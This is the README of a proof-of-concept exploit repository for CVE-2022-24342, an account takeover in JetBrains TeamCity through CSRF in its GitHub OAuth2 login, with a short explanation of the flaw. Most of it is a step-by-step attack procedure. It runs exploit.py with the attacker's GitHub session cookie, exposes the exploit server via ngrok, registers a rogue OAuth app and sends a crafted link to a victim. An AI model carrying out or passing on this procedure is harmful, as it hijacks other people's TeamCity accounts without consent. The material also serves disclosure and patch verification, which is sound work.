

# CVE-2022-24342
JetBrains TeamCity - account takeover via CSRF in GitHub authentication (PoC)

<!-- TOC -->

- [CVE-2022-24342](#cve-2022-24342)
  - [Requirements](#requirements)
  - [Usage](#usage)
  - [How does it work?](#how-does-it-work)
    - [GitHub OAuth2: query parameters processing order](#github-oauth2-query-parameters-processing-order)
    - [CVE-2022-24342: HTTP requests flow](#cve-2022-24342-http-requests-flow)

<!-- /TOC -->

## Requirements

- JetBrains TeamCity <2021.2.1
- GitHub authentication enabled

## Usage

1.  Try to login with attacker's GitHub account into target TeamCity intance to make TeamCity's GitHub application authorized.

2. Install & run:
```powershell
$ git clone https://github.com/yuriisanin/CVE-2022-24342
$ cd CVE-2022-24342/
$ pip3 install -r requirements.txt
$ python3 exploit.py -h

usage: exploit.py [-h] -s S [-p P]

optional arguments:
  -h, --help  show this help message and exit
  -s S        GitHub user session
  -p P        Uvicorn port

$ python3 exploit.py -s {attackers_github_session_cookie}
```

> If you run the exploit on the local machine, you might need to use Ngrok or alternatives.

``` powershell
$ ngrok http 8000
```

2. Create GitHub OAuth2 application:

```
homepage: "http://{exploit-host}:8000"
authorization callback url: "http://{exploit-host}:8000/callback"
```

3. Send the following link to a victim:

```
http://{exploit-host}:8000/exploit?target_host=http://{target-host}&gh_client_id={github_oauth_client_id}
```

## How does it work?

TeamCity was vulnerable to query paramater injection during OAuth2 flow, allowing an attacker to redirect user into an arbitrary GitHub OAuth2 application, intercept a valid state parameter, and connect arbitrary GitHub account to victim's TeamCity account.

This was possible due to next things:

- GitHub OAuth2 query parameters processing order
- TeamCity query parameter injection

### GitHub OAuth2: query parameters processing order



### CVE-2022-24342: HTTP requests flow


